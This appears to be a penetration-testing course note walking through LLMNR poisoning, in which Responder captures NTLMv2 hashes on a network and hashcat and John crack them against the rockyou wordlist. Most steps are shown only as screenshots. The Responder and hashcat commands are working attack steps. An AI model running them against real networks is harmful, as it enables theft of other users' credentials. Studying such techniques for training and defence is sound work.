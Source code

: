 ## LLMNR Poisoning - Capturing NTLMv2 Hashes
```bash
ifconfig 
sudo responder -I eth0
```

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-1.png"> 




</br>

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-2.png"> 

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-3.png"> 




## Trigger an LLMNR Event

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-4.png"> 
<img src="#"> 

## Dumping NTLMv2 Hashes

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-5.png"> 


## Save Hash to a file

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-6.png"> 

## Use Hashcat to crack the hash 
```bash
 hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-7.png"> 

## Use John to crack the hash 
<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-8.png"> 
